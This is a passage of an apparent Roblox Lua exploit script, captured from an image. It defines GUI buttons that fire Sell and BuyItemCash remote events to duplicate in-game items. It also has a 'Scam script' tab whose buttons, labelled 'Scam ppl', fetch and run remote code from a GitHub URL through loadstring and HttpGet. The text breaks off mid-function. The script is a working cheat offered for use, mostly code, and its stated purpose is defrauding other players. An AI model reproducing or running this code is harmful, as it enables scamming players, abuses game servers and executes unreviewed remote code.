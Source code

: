     game:GetService("ReplicatedStorage").RemoteEvents.Sell:FireServer(unpack(args))

        local args = {

        [1] = "Spidy"

    }

    game:GetService("ReplicatedStorage").RemoteEvents.BuyItemCash:FireServer(unpack(args))

end)

Section:NewButton("Dupe Tulsa Rainbow", "Buy item dupe cash", function()

local args = {

        [1] = "Tulsa rainbow"

    }

    game:GetService("ReplicatedStorage").RemoteEvents.Sell:FireServer(unpack(args))

        local args = {

        [1] = "Tulsa rainbow"

    }

    game:GetService("ReplicatedStorage").RemoteEvents.BuyItemCash:FireServer(unpack(args))

end)

local Tab     = Window:NewTab("Scam script")

local Section = Tab:NewSection("scam working !!")

Section:NewButton("Scam 1V", "Scam ppl", function()

loadstring(game:HttpGet(('https://raw.githubusercontent.com/imaboy12321/shhh/main/gaey'),true))()

end)

Section:NewButton("Scam 2V", "Scam ppl", function()
